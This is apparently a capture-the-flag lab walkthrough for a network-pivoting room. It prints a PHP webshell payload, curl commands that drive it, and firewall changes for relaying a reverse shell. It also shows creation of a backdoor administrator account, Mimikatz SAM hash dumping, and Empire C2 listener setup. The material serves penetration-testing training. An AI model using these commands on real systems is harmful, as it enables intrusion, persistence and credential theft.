Thinking about the interesting service on the next target that we  discovered in the previous task, pick a pivoting technique and use it to connect to this service,  using the web browser on your attacking machine! 

As a word of  advice: sshuttle is highly recommended for  creating an initial access point into the rest of the network. This is  because the firewall on the CentOS target will prove problematic with  some of the techniques shown here. We will learn how to mitigate against this later in the room, although if you're comfortable opening up a  port using firewalld then port forwarding or a proxy would also work.



## Code Review                            

In the previous task we found an exploit that might work against the service running on the second server.

Make a copy of this exploit in your local directory using the command:
`searchsploit -m EDBID`



Unfortunately, the local exploit copies stored by searchsploit use DOS line endings,  which can cause problems in scripts when executed on Linux:



Before we  can use the exploit, we must convert these into Linux line endings using the dos2unix tool:
`dos2unix ./EDBID.py`

This can also be done manually with `sed` if `dos2unix` is unavailable:
`sed -i 's/\r//' ./EDBID.py`

------

With the file converted, it's time to read through the exploit to make sure  we know what it's doing. The fact that the exploit is on Exploit-DB  means that it's unlikely to be outright malicious, but there's no  guarantee that it will *work*, or do anything close to exploiting a vulnerabilty in the service.

Open the exploit in your favourite text editor and let's get going!

As this is a Python script, the  version of the language used to write the software matters. Many older  exploits are still written in Python2. These exploits tend to be  incompatible with the Python3 interpreter, and vice versa. 

Before we can do anything else, we need to determine whether this exploit was  written in Python2 or Python3. A quick way of doing this is to look for  the `print` statements (used to echo output to the console). If there are no round brackets (e.g. `print "Hello World!"`) then the exploit will be Python2, otherwise the exploit is likely to be Python3 (e.g. `print("Hello World!")`). Of course, this is far from the only way to check, but it will work for our purposes.

Bearing this in mind, is the script written in Python2 or Python3?                                                            

Now that we know which version of Python we're dealing with we can execute it in one of two ways:

- Using the appropriate interpreter directly (e.g. `python3 exploit.py` / `python2 exploit.py`)
- Adding a shebang line in at the top of the exploit. A shebang tells the Unix  program loader which interpreter to use to run a script. Shebangs always start with the characters: `#!`. You then specify the absolute path to the interpreter, so: `#!/usr/bin/python3` / `#!/usr/bin/python2` / `#!/bin/sh`, etc. This means that if we execute the script using `./exploit.py`, it will be executed by the correct interpreter.

Add an appropriate shebang to the exploit, at the very top of the file!

​                                                            

Let's have a look through some of the key sections of the code.

This script is not designed to be fancy. It does what we need it to do, and  nothing more. All configurations are done within the code by literally  editing the script, so it's important that we understand the options  available to us. These can be found in lines 23-31 (offset by minus one if you didn't add the shebang):


Realistically we are only interested in the first two variables here, as the  other options should be fine at their default values. The two variables  we care about are `ip` and `command`, allowing us to specify our target and the command to run, respectively.

Set the IP to the correct target for your choice of pivoting technique. If  you used sshuttle or one of the proxying techniques then this will just  be the IP of the target. If you used a port forward then it will be `localhost:chosen_port`, e.g.:
`localhost:8000`

For the time being we will leave the command as it is. `whoami` is as good a command as any to confirm that the exploit works.

The bulk of the middle section of the code is taking advantage of the  improper access controls which make this vulnerability possible. We will not cover this in detail in order to keep this task relatively short;  however, reading through the exploit (and trying to understand it) would be highly advisable.

We are, however, interested in the last 6 lines of the exploit:


These create a PHP webshell (`<?php system($_POST['a']); ?>`) and echo it into a file called `exploit.php` under the webroot. This can then be accessed by posting a command to the newly created `/web/exploit.php` file.

For the sake of not spoiling things for other users, we are going to alter this before running the script.

We can leave the payload as it is, but we will alter both instances of "exploit.php" in the script to be `exploit-USERNAME.php`, for example:




##  Exploitation

In the previous task we had a look through the source code of the  exploit we found, identified the lines which needed to be updated, then  made the necessary changes.

It is now time to run the exploit!


Success!

Not only did the exploit work perfectly, it gave us command execution as NT AUTHORITY\SYSTEM, the highest ranking local account on a Windows  target.

From here we want to obtain a full reverse shell. We have two options for this:

1. We could change the command in the exploit and re-run the code
2. We could use our knowledge of the script to leverage the same webshell to  execute more commands for us, without performing the full exploit twice

Option number two is a lot quieter than option number 1, so let's use that.

------

The webshell we have uploaded responds to a POST request using the parameter "`a`" (by default). This means that we have two easy ways to access this. We  could use cURL from the command line, or BurpSuite for a GUI option.

**With cURL:**
`curl -X POST http://IP/web/exploit-USERNAME.php -d "a=COMMAND"`


***Note:** in this screenshot,* `gitserver.thm` *has been added to the* `/etc/hosts` *file on the attacking machine, mapped to the target IP address.*

**With BurpSuite:**
We first turn on our Burp proxy (see the [Burpsuite room](https://tryhackme.com/room/rpburpsuite) if you need help with this!) and navigate to the exploit URL:


We then press `Ctrl + R` to send the request to Repeater on the top menu.

Next we change the "GET" on line 1 to "POST". We then add a `Content-Type` header on line 9 to tell the server to accept POST paramters:
`Content-Type: application/x-www-form-urlencoded`

 Finally, on line 11 we add `a=COMMAND`:


Press send, and see the response come in!


With two methods available, pick your favourite and we'll aim for a shell!

​                                                            

Before we go for a reverse shell, we need to establish whether or not this target is allowed to connect to the outside world. The typical way of doing this is by executing the `ping` command on the  compromised server to ping our own IP and using a network interceptor  (Wireshark, TCPDump, etc) to see if the ICMP echo requests make it  through. If they do then network connectivity is established, otherwise  we may need to go back to the drawing board.

To start up a TCPDump listener we would use the following command:
`tcpdump -i tun0 icmp`

***Note:** if your VPN is not using the tun0 interface then you will need to  replace this with the correct interface for your system which can be  found using* `ip -a link` *to see the available interfaces.
Now, using the webshell, execute the following ping command (substituting in your own VPN IP!):
`ping -n 3 ATTACKING_IP` This will send three ICMP ping packets back to you.                 

Looks like we're going to need to think outside the box to catch this shell.

We have two easy options here:

-  Given we have a fully stable shell on .200, we could upload a static copy of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat) and just catch the shell here
- We could set up a relay on .200 to forward a shell back to a listener

It is up to you which option you choose (although for the sake of  practice, a socat relay is suggested); however, whichever way you  choose, please be mindful of other users at earlier stages of the network  and **ensure that any ports you open are above 15000.**


Before we can do this, however, we need to take one other thing into account.  CentOS uses an always-on wrapper around the IPTables firewall called  "firewalld". By default, this firewall is extremely restrictive, only  allowing access to SSH and anything else the sysadmin has specified.  Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following  command:
`firewall-cmd --zone=public --add-port PORT/tcp`
Substituting in your desired choice of port.

In this command we are using two switches. First we set the zone to public -- meaning that the rule will apply to every inbound connection to this port. We then specify which port we want to open, along with the  protocol we want to use (TCP).

With that done, set up either a listener or a relay on .200.                                                           

Let's go for a reverse shell!

As this is a web exploit, we now have to URL encode the shell command. If  using Burpsuite, you can do this by pasting the command in as the value  for the "a" parameter, then selecting it and pressing Ctrl + U:


If you are using cURL then there are a variety of options available. cURL does provide a `--data-urlencode` switch; however, it's often easiest to just use a [website](https://www.urlencoder.org/) to encode the shell command, then copy it in with the `-d` switch:


## Stabilisation & Post Exploitation

In the last task we got remote command execution running with the  highest permissions possible on a local Windows machine, which means  that we do not need to escalate privileges on this target.

In the  upcoming tasks we will be looking at the second teaching point of this  network -- the command and control framework: Empire. Before we do that  though, let's consolidate our position a little.

From the  enumeration we did on this target we know that ports 3389 and 5985 are  open. This means that (using an account with the correct privileges) we  should be able to obtain either a GUI through RDP (port 3389) or a stable CLI shell using WinRM (port 5985).

Specifically, we need a user account (as opposed to the service account which we're  currently using), with the "Remote Desktop Users" group for RDP, or the "Remote Management Users" group for WinRM. A user in the  "Administrators" group trumps the RDP group, and the original  Administrator account can access either at will. 

We  already have the ultimate access, so let's create such an account!  Choose a unique username here (your TryHackMe username would do), and  obviously pick a password which you don't use *anywhere* else.

First we create the account itself:
`net user USERNAME PASSWORD /add`

Next we add our newly created account in the "Administrators" and "Remote Management Users" groups:
```powershell
net user USERNAME PASSWORD /add
net localgroup Administrators USERNAME /add
net localgroup "Remote Management Users" USERNAME /add
```


We can now use this account to get stable access to the box!

------

As mentioned previously, we could use either RDP or WinRM for this.

*Note:* Whilst the target is set up to allow multiple sessions over RDP, for the sake of other users attacking the network in conjunction with  memory limitations on the target, it would be appreciated if you stuck  to the CLI based WinRM for the most part. We will use RDP briefly in the next section of this task, but otherwise please use WinRM when moving  forward in the network.

Let's access the box over WinRM. For this we'll be using an awesome little tool called [evil-winrm](https://github.com/Hackplayers/evil-winrm).

This does not come installed by default on Kali, so use the following command to install it from the Ruby Gem package manager:
`sudo gem install evil-winrm`

With evil-winrm installed, we can connect to the target with the syntax shown here:
`evil-winrm -u USERNAME -p PASSWORD -i TARGET_IP `


*If you used an SSH portforward rather than sshuttle to access the Git  Server, you will need to set up a second tunnel here to access port  5985. In this case you may also need to specify the target port using  the -P switch (e.g. -*`i 127.0.0.1 -P 58950`*).*

Note that evil-winrm usually gives medium integrity shells for added  administrator accounts. Even if your new account has Administrator  permissions, you won't actually be able to perform administrative  actions with it via winrm.

------

Now let's look at connecting over RDP for a GUI environment. 

There are many RDP clients available for Linux. One of the most versatile is "xfreerdp" -- this is what we will be using here. If not already installed, you can  install xfreerdp with the command:
`sudo apt install freerdp2-x11`

As mentioned, xfreerdp is an incredibly versatile tool with a vast number  of options available. These range from routing audio and USB connections into the target, through to pass-the-hash attacks over RDP. The most basic syntax for connecting is as follows:
`xfreerdp /v:IP /u:USERNAME /p:PASSWORD`

For example:
`xfreerdp /v:172.16.0.5 /u:user /p:'password123!'`

Note that (as this is a command line tool), passwords containing special characters must be enclosed in quotes.

When authentication has successfully taken place, a new window will open giving GUI access to the target.


That said, we can do a *lot* more with xfreerdp. These switches are particularly useful:-

- `/dynamic-resolution` -- allows us to resize the window, adjusting the resolution of the target in the process
- `/size:WIDTHxHEIGHT` -- sets a specific size for targets that don't resize automatically with `/dynamic-resolution`
- `+clipboard` -- enables clipboard support
- `/drive:LOCAL_DIRECTORY,SHARE_NAME` -- creates a shared drive between the attacking machine and the target. This switch is insanely useful as it allows us to very easily use our  toolkit on the remote target, and save any outputs back directly to our  own hard drive. In essence, this means that we never actually have to  create any files on the target. For example, to share the current  directory in a share called `share`, you could use: `/drive:.,share`, with the period (`.`) referring to the current directory

When creating a shared drive, this can be accessed either from the command line as `\\tsclient\`, or through File Explorer under "This PC":


Note that the name of the share will change according to what you selected in the `/drive` switch.

A useful directory to share is the `/usr/share/windows-resources` directory on Kali. This shares most of the Windows tools stockpiled on  Kali, including Mimikatz which we will be using next. This would make  the full command:
`xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`

------

With GUI access obtained and our Windows resources shared to the target, we  can now very easily use Mimikatz to dump the local account password  hashes for this target. Next we open up a `cmd.exe` or `PowerShell` window *as an administrator* (i.e. right click on the icon, then click "Run as administrator") in the GUI and enter the following command:
`\\tsclient\share\mimikatz\x64\mimikatz.exe`


***Note:** if you used a different share name, you would need to substitute this in.  Equally, if the command errors out, you may need to install mimikatz on  Kali with* `sudo apt install mimikatz`*.*

With  Mimikatz loaded, we next need to give ourselves the Debug privilege and  elevate our integrity to SYSTEM level. This can be done with the  following commands:
`privilege::debugtoken::elevate`


If we want we could log Mimikatz output with the `log` command. For example: `log c:\windows\temp\mimikatz.log`, would save the Mimikatz output into the Windows Temp directory. This  could also be saved directly into our Kali machine, but be aware that  the remote destination must be writeable to the local user running the RDP session.

We can now dump all of the SAM local password hashes using:
`lsadump::sam`

Near the top of the results you will see the Administrator's NTLM hash:


# Command and Control

## Introduction                            

***Note:** If you are using the AttackBox then you  are advised to skip to Task 32. The way that Empire is installed in the  AttackBox is not representative of the recommended method -- a necessary design choice which was made to accommodate other software running on  the machine. If you are comfortable working with Docker (and changing  the instructions in the following tasks to accommodate accordingly) then feel free to read on. Otherwise please skip to the next section.*

------

So, we have a stable shell. What now?

With a foothold in a target network, we can start looking to bring what is known as a *C2 (Command and Control) Framework* into play. C2 Frameworks are used to consolidate an attacker's position  within a network and simplify post-exploitation steps (privesc, AV  evasion, pivoting, looting, covert network tactics, etc), as well as  providing red teams with extensive collaboration features. There are  many C2 Frameworks  available. The most famous (and expensive) is likely [Cobalt Strike](https://www.cobaltstrike.com/); however, there are many others, including the .NET based [Covenant](https://github.com/cobbr/Covenant), [Merlin](https://github.com/Ne0nd0g/merlin), [Shadow](https://github.com/bats3c/shad0w), [PoshC2](https://github.com/nettitude/PoshC2), and many others. An excellent resource for finding (and filtering) C2 frameworks is [The C2 Matrix](https://www.thec2matrix.com/), which provides a great list of the pros and cons of a huge number of frameworks.

We have a system shell on a Windows host, making this an ideal time to  introduce the second of our three teaching topics: the C2 Framework  "Empire".

Powershell Empire is, as the name  suggests, a framework  built primarily to attack Windows targets (although especially with the  advent of dotnet core, more and more of the functionality may become  usable in other systems). It provides a wide range of  modules to take initial access to a network of devices, and turn it into something *much* bigger. In this section we will be  looking at the principles of PS Empire, as well as how to use it (and  its GUI interface: Starkiller) to improve our shell and perform  post-exploitation techniques on the Git Server.

The Empire project was originally abandoned in early 2019; however, it was soon picked up by a company called [BC-Security](https://www.bc-security.org/), who have maintained and improved it ever since. As such, there are  actually two public versions of Empire -- the original (now very  outdated), and the current BC-Security fork. Be careful to get the right one!

***Note:** this material was originally  written for Empire 3.x, but has been updated in response to the release  of Empire 4.x which has a very different way of operating. Make sure to  use Empire 4.x if following along with these materials.*

We will be looking into  both Empire and its GUI extension: "Starkiller". Empire is the original  CLI based framework but has now been split into a *server* mode and a *client* mode. Starkiller is a more recent addition to the toolbox, and can be  used instead of (or as well as) the Empire client CLI program. 

## Empire: Overview                            

Powershell Empire has several major sections to it, which we will be covering in the upcoming tasks.

- **Listeners** are fairly self-explanatory. They listen for a connection and facilitate further exploitation
- **Stagers** are essentially payloads generated by Empire to create a robust reverse shell in conjunction with a listener. They are the delivery mechanism  for agents
- **Agents** are the equivalent of a Metasploit  "Session". They are connections to compromised targets, and allow an  attacker to further interact with the system
- **Modules** are  used to in conjunction with agents to perform further exploitation. For  example, they can work through an existing agent to dump the password  hashes from the server 

Empire also allows us to add in custom **plugins** which extend the functionality of the framework in various ways; however, we will not be covering this in the upcoming content.

In addition to these practical applications of the framework, it also has a nifty credential storage facility, automatically storing any found  creds in a local database, plus many other neat features! Many of these  extra features (such as the messaging functionality) are tailored for  teams attacking a target; we will not be covering these collaborative  features in much detail, but you are encouraged to look at them for  yourself!

There is a problem though. As established previously, our target (the Git  Server) does not have the ability to connect directly to our attacking  machine. Due to how Empire handles pivoting, we will need to set up a  special kind of listener, so before we do that, we will learn the  "normal" process for setting up Empire and Starkiller using the already  compromised Webserver as a target. Once we have a handle on how Empire  operates, we will switch focus to our primary target: the Git Server.

In each of the following tasks, we will cover the relative section in both the Empire CLI and the Starkiller GUI. You are welcome to pick  whichever one you prefer -- or follow along with both!

Let's set up our first listener!

## Empire: Listeners                            

Listeners in Empire are used to receive connections from stagers (which we'll look at in the next task). The default listener is the `HTTP` listener. This is what we will be using here, although there are many  others available. It's worth noting that a single listener can be used  more than once -- they do not die after their first usage.

------

Let's start by setting up a listener in the Empire CLI Client.

Having started the client, we are met with the following menu:


To select a listener we would use the `uselistener` command. To see all available listeners, type `uselistener ` (making sure to include the space at the end!) -- this should bring up a dropdown menu of available listeners:


 When you've picked a listener, type `uselistener LISTENER` and press enter to select it; alternatively, the up and down arrow keys can also be used to traverse the dropdown, with the chosen listener  again being selected by pressing enter. Here we will be using the `http` listener (the most common kind), so we use `uselistener http`:


This brings up a huge table of options for the listener. If we need to see  an updated copy of this table (having set options, for example), we can  access it again with the `options` command when in the context of the listener.

The syntax for setting options is identical to the Metasploit module options syntax -- `set OPTION VALUE`. Once again, a dropdown will appear showing us the available options after we type `set `.

Set a new name for the listener. This allows us to easily identify it later -- especially if we have several open. It is not essential, however,  and can be left at the default `http` if preferred. 

That said, some options *must* be set. At a bare minimum we must set the host (to our own IP address) and port:


Bear in mind that option names are case sensitive in Empire. 

Many of the other options presented here are extremely useful, so it's well  worth learning what they do and how they can be applied.

With the required options set, we can start the listener with: `execute`. We can then exit out of this menu using `back`, or exit to the main menu with `main`.

To view our active listeners we can type listeners then press enter:


When we want to stop a listener, we can use `kill LISTENER_NAME` to do so -- a dropdown menu with our active listeners will once again appear to assist.

------

We have a listener in the Empire CLI; now let's do the same thing in Starkiller!

When we first launched Starkiller, we were placed automatically in the Listeners menu:


The process of creating a listener with the GUI is very intuitive. Click the "Create " button.

In the menu that pops up, set the Type to `http`, the same as with the Empire Listener we created before. Several new options will appear:


Notice that these options are identical to those we saw earlier in the CLI version.

Once again, set the Name, Host, and Port for the listener (make sure to use a different port from previously if you already have an Empire listener  started!):


With the options set, click "Submit" at the top of the page, then go back to the Listeners menu by clicking on "Listeners" at the top left of the  page. Back on the main Listeners page you will see your created  listener!


***Note:** if you also have a listener set up in Empire, this will also show up here.*
